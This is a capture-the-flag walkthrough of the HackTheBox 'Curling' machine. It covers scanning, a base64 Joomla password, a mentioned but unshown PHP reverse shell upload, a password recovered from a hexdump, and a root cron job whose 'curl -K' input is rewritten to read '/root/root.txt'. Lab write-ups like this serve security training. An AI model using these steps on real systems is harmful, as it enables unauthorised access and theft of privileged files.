






## Introduction

Curling is a medium-difficulty machine on HackTheBox that involves exploiting a Joomla Content Management System (CMS) to gain initial access and leveraging cron jobs for privilege escalation. This walkthrough will guide you through the process of compromising the Curling machine, from initial reconnaissance to gaining root access.

## Initial Enumeration

### Nmap Scan

The first step in any penetration test is enumeration. We start by scanning the target machine using Nmap to identify open ports and services.

```bash
nmap -sV -sC -oA nmap/initial 10.10.10.150
```

**Nmap Results:**

```nmap
Starting Nmap 7.80 ( https://nmap.org ) at 2020-12-07 02:37 EST
Nmap scan report for 10.10.10.150
Host is up (0.23s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8a:d1:69:b4:90:20:3e:a7:b6:54:01:eb:68:30:3a:ca (RSA)
|   256 9f:0b:c2:b2:0b:ad:8f:a1:4e:0b:f6:33:79:ef:fb:43 (ECDSA)
|_  256 c1:2a:35:44:30:0c:5b:56:6a:3f:a5:cc:64:66:d9:a9 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: Joomla! - Open Source Content Management
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.24 seconds
```

**Key Services Identified:**

- **SSH (22):** OpenSSH 7.6p1
- **HTTP (80):** Apache httpd 2.4.29 with Joomla CMS

### Web Enumeration



Visiting the HTTP service on port 80 revealed a Joomla blog site. We initiated a `ffuf` scan to enumerate directories.

**Directory Brute-Forcing:**

```bash
ffuf -w ./wordlist -u http://10.10.10.150/FUZZ
```



**Key Directories Identified:**

- `/administrator`
- `/templates`
- `/components`

### Discovering the Joomla Administrator Login

In the `/administrator` directory, we found the default Joomla login page. By inspecting the blog posts, we discovered the author name: `Floris`.

**Author Name:**


### Extracting Credentials

At the bottom of the source code, we found a comment referencing `secret.txt`. Accessing this file revealed a base64-encoded string:

```
Q3VybGluZzIwMTgh
```

Decoding this string provided the password:

```
Curling2018!
```

### Gaining Initial Access

Using the credentials `floris:Curling2018!`, we logged into the Joomla administration page. To gain a shell, we uploaded a PHP reverse shell via the template editor.


## Privilege Escalation

### Enumerating User Files

In the `floris` home directory, we found a file named `password_backup` that appeared to be a hexdump.

**Hexdump File:**

```
cat password_backup
00000000: 425a 6839 3141 5926 5359 819b bb48 0000  BZh91AY&SY...H..
00000010: 17ff fffc 41cf 05f9 5029 6176 61cc 3a34  ....A...P)ava.:4
00000020: 4edc cccc 6e11 5400 23ab 4025 f802 1960  N...n.T.#.@%...`
00000030: 2018 0ca0 0092 1c7a 8340 0000 0000 0000   ......z.@......
00000040: 0680 6988 3468 6469 89a6 d439 ea68 c800  ..i.4hdi...9.h..
00000050: 000f 51a0 0064 681a 069e a190 0000 0034  ..Q..dh........4
00000060: 6900 0781 3501 6e18 c2d7 8c98 874a 13a0  i...5.n......J..
00000070: 0868 ae19 c02a b0c1 7d79 2ec2 3c7e 9d78  .h...*..}y..<~.x
00000080: f53e 0809 f073 5654 c27a 4886 dfa2 e931  .>...sVT.zH....1
00000090: c856 921b 1221 3385 6046 a2dd c173 0d22  .V...!3.`F...s."
000000a0: b996 6ed4 0cdb 8737 6a3a 58ea 6411 5290  ..n....7j:X.d.R.
000000b0: ad6b b12f 0813 8120 8205 a5f5 2970 c503  .k./... ....)p..
000000c0: 37db ab3b e000 ef85 f439 a414 8850 1843  7..;.....9...P.C
000000d0: 8259 be50 0986 1e48 42d5 13ea 1c2a 098c  .Y.P...HB....*..
000000e0: 8a47 ab1d 20a7 5540 72ff 1772 4538 5090  .G.. .U@r..rE8P.
000000f0: 819b bb48                                ...H
```

### Decoding the Backup File

Recognizing the `BZh91AY&SY` signature, we identified the file as a bzip2 archive. We converted the hexdump back to binary and decompressed it:

```bash
xxd -r password_backup > newfile
bzip2 -d newfile
```

This process revealed a gzip file, which we further decompressed to obtain the password:

```
5d<wdCbdZu)|hChXll
```

**Password File:**


### Accessing User Shell

Using the discovered password, we SSHed into the machine as `floris`:

```bash
ssh floris@10.10.10.150
```

**User Shell Obtained:**



## Privilege Escalation to Root

### Discovering Cron Jobs

In the `floris` home directory, we found a folder named `admin-area` containing two files: `input` and `report`. The timestamps of these files changed every few minutes, indicating a cron job.



### Exploiting the Cron Job

We identified a cron job running as root that used the `input` file to generate the `report` file:

```bash
/bin/sh -c curl -K /home/floris/admin-area/input -o /home/floris/admin-area/report
```

To exploit this, we modified the `input` file to fetch the root flag:

```
url = "file:///root/root.txt"
```

**Root Flag Obtained:**



## Conclusion

The Curling machine on HackTheBox provided a comprehensive challenge, encompassing web application enumeration, Joomla exploitation, and cron job privilege escalation. By methodically enumerating services, exploiting discovered credentials, and leveraging cron jobs, we successfully compromised the machine and gained root access. This walkthrough underscores the importance of thorough enumeration and the effective use of discovered vulnerabilities in penetration testing.